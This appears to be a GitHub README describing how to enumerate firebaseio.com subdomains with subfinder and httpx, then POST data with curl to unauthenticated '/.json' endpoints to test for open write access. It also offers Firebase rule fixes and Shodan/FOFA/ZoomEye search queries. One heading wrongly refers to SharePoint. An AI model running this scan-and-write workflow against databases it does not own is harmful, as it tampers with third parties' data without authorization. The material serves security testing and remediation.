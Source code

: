 
# 📝 Firebase Subdomain Enumeration & PoC Testing

This repository provides a workflow to find subdomains of `firebaseio.com`, test them for public accessibility, and exploit a `.json` endpoint to check for write vulnerabilities. Additionally, mitigation steps are provided to fix the issue.

## ⌛ Requirements
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Httpx](https://github.com/projectdiscovery/httpx)
- Curl

## 🔍 Workflow

### ✅ Subdomain Enumeration
Use `subfinder` to enumerate subdomains for `firebaseio.com`:

```bash
subfinder -d firebaseio.com -o subdomains.txt
```

### ✅ Test Subdomains
Once subdomains are collected, use `httpx` to check `.json` endpoints for accessible responses (HTTP status code 200):

```bash
httpx -l subdomains.txt -path "/.json" -mc 200 -o valid_subdomains.txt
```

### ✅ PoC Testing
Use `curl` to send a POST request to the `.json` endpoint to test if data can be written without authentication:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json -d '{"test":"poc"}' -H "Content-Type: application/json"
```

If successful, the server is vulnerable to unauthenticated write access.

### 🔨 How to Fix it :
To secure the Firebase database:

1. **Set Firebase Database Rules**:
   - Open the Firebase Console.
   - Go to *Database > Rules*.
   - Update the rules to restrict access only to authenticated users. Example:
     ```json
     {
       "rules": {
         ".read": "auth != null",
         ".write": "auth != null"
       }
     }
     ```

2. **Audit Subdomains**:
   - Ensure there are no unused or publicly misconfigured Firebase databases.

3. **Monitor Activity Logs**:
   - Use Firebase to monitor access logs for suspicious activities.
   
## 📝 Alternative Methods to Identify SharePoint Sites

### Using Search Engines
- **FOFA**:  
  Query: `"domain="firebaseio.com""`

- **Shodan**:  
  Query: `http.title:"Firebase""`

- **ZoomEye**:  
  Query: `site:"firebaseio.com""`

## ⭐ References

Here are real-world examples of Firebaseio vulnerabilities reported on HackerOne :

- [HackerOne Report 1065134](https://hackerone.com/reports/1065134)  
- [HackerOne Report 1447751](https://hackerone.com/reports/1447751)  
- [HackerOne Report 736283](https://hackerone.com/reports/736283)  
- [HackerOne Report 684099](https://hackerone.com/reports/684099)


## ⚠️ Disclaimer
This script is intended for educational purposes and for security testing of systems you own or have explicit permission to test. Do not use this for unauthorized activities.

## 💰 Support Me  

If you find this work helpful, you can support me:  
- [![Buy Me a Coffee](https://www.buymeacoffee.com/assets/img/custom_images/yellow_img.png)](https://buymeacoffee.com/ghost_sec)  

Thanks for your support! ❤️
